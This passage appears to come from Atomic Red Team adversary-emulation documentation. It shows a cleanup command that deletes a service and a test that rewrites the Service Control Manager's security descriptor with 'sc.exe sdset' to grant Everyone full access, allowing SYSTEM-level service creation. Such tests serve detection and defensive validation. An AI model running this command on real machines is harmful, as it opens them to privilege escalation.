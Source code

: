 #### Cleanup Commands:
```cmd
sc.exe delete "WerFaultSvc"
```





<br/>
<br/>

## Atomic Test #7 - Modifying ACL of Service Control Manager via SDET
Modify permissions of Service Control Manager via SDSET. This allows any administrative user to escalate privilege and create a service with SYSTEM level privileges.Restart is required.
[Blog](https://0xv1n.github.io/posts/scmanager/)

**Supported Platforms:** Windows


**auto_generated_guid:** bf07f520-3909-4ef5-aa22-877a50f2f77b






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
sc.exe sdset scmanager D:(A;;KA;;;WD)
```






<br/>
